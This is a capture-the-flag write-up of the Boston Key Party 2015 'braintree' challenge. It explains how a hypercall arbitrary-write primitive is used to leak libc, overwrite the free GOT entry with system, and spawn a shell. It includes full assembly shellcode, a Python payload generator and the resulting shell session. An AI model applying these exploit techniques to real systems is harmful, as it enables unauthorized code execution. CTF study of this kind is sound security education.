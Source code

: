 ```yaml
---
title: 'braintree (tz) write-up'
author:
  - Brian Pak (Cai)
layout: post
categories:
  - Pwn
ctf: Boston Key Party CTF
year: 2015
---
```

This is a write-up for **braintree** challenge, which is the last part of 3-chained pwnable challenge from [Boston Key Party CTF](https://ctftime.org/event/163) last weekend.  _You can also read this content from the [origial post](https://www.bpak.org/blog/2015/03/bkpctf-2015-braintree-tz-write-up/)_.

The binaries were packaged into a [tar ball](https://www.bpak.org/blog/wp-content/uploads/2015/03/zenhv-e941cb4585deafcf5a1b86050a3ebe7a.gz).

> The MBTA wrote a cool system. It's pretty bad though, sometimes the commands work, sometimes they don't...
> Exploit it. (tz flag) 54.165.91.92 8899

The goal is to get "tz" flag by exploiting the kernel space process.

_If you haven't read the previous write-up for quincy-adams, I strongly recommend you to read before continuing with this one as we will assume knowledge gained from it._

As it was mentioned previously, we will be using the same primitive: **hypercall #92**.

Therefore, we have an arbitrary-write-anywhere primitive. So, the question is "what can we overwrite in **tz** that will get us an arbitrary code execution?"

We started looking at each of the hypercall handlers in **tz**.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_3.png" lightbox="braintree" %}

Then, we stumbled upon hypercall #85.

This function seemed like some sort of cleanup (we called it **delete_op** in our shellcode) function for an object used in **tz**. (As I said previously, we didn't do much of reversing on **tz** as we did for **uspace** and **kspace**)

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/tz_0.png" lightbox="braintree" %}

It seems like the first argument (v3) is a word that represents id of some sort, but the important thing is that we can control its value. v2 is an offset to the tz data structure, and the value at **tz_space + v2 (where v2 is 0)** is 0.

Since NX is enabled on **tz**, we decided to overwrite the GOT entry to execute **system**. Since the addresses are randomized, we first need to leak an address to calculate the address of system. We are going to abuse the hypercall #92 to do 3 things:

  * Leak out libc address, so we can calculate the address of system.
  * Overwrite **free** (.got.plt in tz) with &system.
  * Overwrite contents in **v4 + 8** (aka, tz_space + 8) with a pointer to our command buffer.

However, doing all of these comes with a price. The size limit (256 bytes) starts to become an issue here. We can either put another stager in the middle to allow us more space, or optimize our payload such that it fits under 256 bytes! We chose to do latter :p

<p class="filename">shell.asm</p>
{% highlight asm linenos %}
[BITS 64]

section .text
global _start
_start:

; yay we are in kernel!!!
; optimizing for size...
mov ebp, 0x8

; leak out &getpwnam
mov eax, 0x402380       ; do_encrypt
mov edi, 0x602290       ; src (getpwnam .got.plt in tz)
mov rsi, [rel dst]      ; dst (kernel_space + 128)
mov edx, ebp            ; size
call rax

call sleep

; update the address (to be &system) and
; xor the address back with the key
mov rcx, [rel dst]
mov rax, [rcx]
xor rax, [rel xor_key]
sub rax, 0x79340        ; &getpwnam - &system (this may be different depending on libc)
xor rax, [rel xor_key]
mov [rcx], rax

; overwrite free GOT
mov eax, 0x402380       ; do_encrypt
mov rdi, [rel dst]      ; src (kernel_space + 128)
mov esi, 0x602230       ; dst (free .got.plt in tz)
mov edx, ebp            ; size
call rax

call sleep

mov rax, [rel command]  ; encrypt our command pointer
xor rax, [rel xor_key]
push rax

; overwrite [fake_obj + 8] with cmd pointer
mov eax, 0x402380       ; do_encrypt
mov rdi, rsp
mov rsi, [rel fake]
mov edx, ebp            ; size
call rax

call sleep

; setting command to 'sh'
mov rcx, [rel command]
mov dword [rcx], 0x6873

; hypercall to trigger free
; sem_lock
mov ebp, [0x60338C]     ; semaphore
mov edi, ebp
xor esi, esi
mov eax, 0x4015D0
call rax

xor rcx, rcx
mov rax, [0x603360]     ; kernel_space
mov dword [rax], 85     ; delete_op hypercall
mov [rax + 8], rcx      ; 0
lea rdx, [rax + 48]     ; rax + 48 points to args
mov [rax + 16], rdx

mov word [rax + 48], 0  ; id

; sem_unlock
mov edi, ebp
xor esi, esi
mov eax, 0x401600
call rax

call sleep

sleep:
; sleep(1)
mov eax, 0x400D00
xor edi, edi
inc edi
jmp rax

dst:
dq 0x900000080         ; scratch pad in kernel_space
fake:
dq 0x100000008         ; tz_space + 8
xor_key:
dq 0x7473656c72616863
command:
dq 0x900001000         ; we will put our command here
{% endhighlight %}
<br />

At first, we were over ~10 bytes, but once we have "optimized" a little bit, we finally got our payload to be 254 bytes!

Note that we are not using the same shell.asm as before (our new payload is now called shell.asm). However, we can continue to use the same stage1.asm and the python script from **kspace** exploit. For convenience sake, it is also attached here.

<p class="filename">pwn_tz.py</p>
{% highlight python linenos %}
#!/usr/bin/python
import struct

def p(v):
    return struct.pack('<Q', v)

def u(v):
    return struct.unpack('<Q', v)[0]

f = open('payload', 'wb')

f.write('create lol\n'.ljust(0x400, '#'))
f.write(open('shell.bin').read().ljust(0x100, '\0'))

pop_pop_ret = 0x40110F
stage1 = open('stage1.bin').read()

f.write('create fmt\n'.ljust(0x400, '#'))

payload = '%280x' + p(pop_pop_ret)
f.write(payload.ljust(0x100, '\0'))

f.write(('cat fmt ' + stage1 + '\n').ljust(0x400, '#'))
{% endhighlight %}
<br />

<p class="filename">Pwn!</p>
{% highlight bash %}
$ nasm shell.asm -f bin -o shell.bin
$ ls -l shell.bin
-rw-rw-r-- 1 user user 254 Mar 4 21:58 shell.bin
$ nasm stage1.asm -f bin -o stage1.bin
$ python pwn_tz.py
$ (cat ../tz/payload; cat -) | sudo ./tz
bksh> bksh> bksh>
whoami
tz
{% endhighlight %}
<br />

We have abused the hypercall #92 (encrypt) to exploit both kspace and tz, but there may be another way to exploit kspace without going through the hypervisor.

Well, that's it for the 3-parts pwnable challenge write-up =)

Thank you for reading, and happy hacking!

Write-up by Cai (Brian Pak) [[https://www.bpak.org](http://www.bpak.org)]